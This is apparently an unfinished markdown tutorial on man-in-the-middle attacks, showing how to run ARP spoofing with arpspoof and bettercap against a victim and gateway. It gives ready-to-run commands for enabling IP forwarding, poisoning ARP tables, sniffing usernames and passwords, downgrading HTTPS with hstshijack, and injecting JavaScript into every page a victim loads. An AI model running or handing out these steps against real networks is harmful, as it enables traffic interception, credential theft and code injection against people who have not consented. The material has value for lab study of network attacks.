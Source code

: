 # MITM attacks (Man In The Midle) - ARP spoofing

### What ARP is?

ARP (Address Resolution Protocol) is a protocol used to map an IP address to a MAC address. It is used to find the hardware address of a host from a known IP address.

### What is ARP spoofing?

ARP spoofing is a type of attack in which a malicious actor sends falsified ARP (Address Resolution Protocol) messages to the target machine and to the default gateway. By doing so, the gateway (router) thinks that the attacker's MAC address is the address of the target machine and the target machine thinks that the attacker's MAC address is the address of the gateway. This way, the attacker can intercept the traffic between the target and the gateway.

## ARP spoofing using arpspoof

### Usage:
```
$ arpspoof -i <interface> -t <target-ip> <gateway-ip>
$ arpspoof -i <interface> -t <gateway-ip> <target-ip>
```

> **_NOTE:_**<br>
> By default, the linux kernel does not forward packets between interfaces. <br>
> We want our machine to act as a router, so we need to enable packet forwarding by running the following command:
> ```
> $ echo 1 > /proc/sys/net/ipv4/ip_forward
> ```

### Attack example:
- victim ip address (the target): 192.168.1.10
- gateway ip address (the router): 192.168.1.1
- interface: eth0

1. Enable IP forwarding
```
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

2. Launch an ARP spoofing attack to the victim:
```
$ arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
# this command changes the arp table of the target (victim)
```

3. Launch an ARP spoofing attack to the gateway:
```
$ arpspoof -i eth0 -t 192.168.1.1 192.168.1.10 
# this command changes the arp table of the gateway (router)
```

## ARP spoofing using bettercap

### What is bettercap?

Bettercap is a powerful framework for network attacks and monitoring. It offers more features than arpspoof like:
- ARP spoofing
- Sniff data (url, username, password, ...)
- Bypass HTTPS
- Redirect domain requests (DNS spoofing)
- Inject code in loaded pages
- And more...

It is organized in modules, each module has its own commands and options.

### Install bettercap if not installed
```
$ apt get install bettercap
```

### Usage:
To launch bettercap run: 
```
$ bettercap -iface <interface>
```

> **_NOTE:_**<br>
> To get help about bettercap usage type `help` in the bettercap console.<br>
> To get help about a specific module type `help <module-name>`.

### Attack example:

- interface: eth0

1. Launch bettercap
```
$ bettercap -iface eth0
```

2. Turn on the probe module<br>
The probe module keeps probing for new hosts on the network by sending dummy UDP packets to every possible IP on the subnet.
```
$ net.probe on
```
> **_NOTE:_**<br>
> The probe module automatically turns the net.recon module on.<br>
> The net.recon module periodically reads the ARP cache in order to monitor for new hosts on the network.

> **_NOTE:_**<br>
> To show a list of all connected clients on the network type:<br>
> ```
> $ net.show
> ```
> 
TODO: CONTINUE HERE

- set arp spoofing parameters
```
$ set arp.spoof.fullduplex true
$ set arp.spoof.targets <target-ip1>,<target-ip2>,...
```

- turn on arp spoof module
```
$ arp.spoof on
```

- capture requests
```
$ net.sniff on
```

you can also run bettercap by passing a text file with all commands to execute
```
$ bettercap -iface <interface> -caplet spoof.cap
```
the spoof.cap constains all the previous commands

## Downgrade https to http
```
$ hstshijack/hstshijack
```

## JS injection

- To inject js add the js file to the payload in the 'set hstshijack.payloads' in the file /usr/share/bettercap/caplets/hstshijack/hstshijack.cap

```
*:<path_to_js_file>
```
the star means that the file is injected in every website; to inject only in a specific website do this:
```
<website>:<path_to_js_file>
```
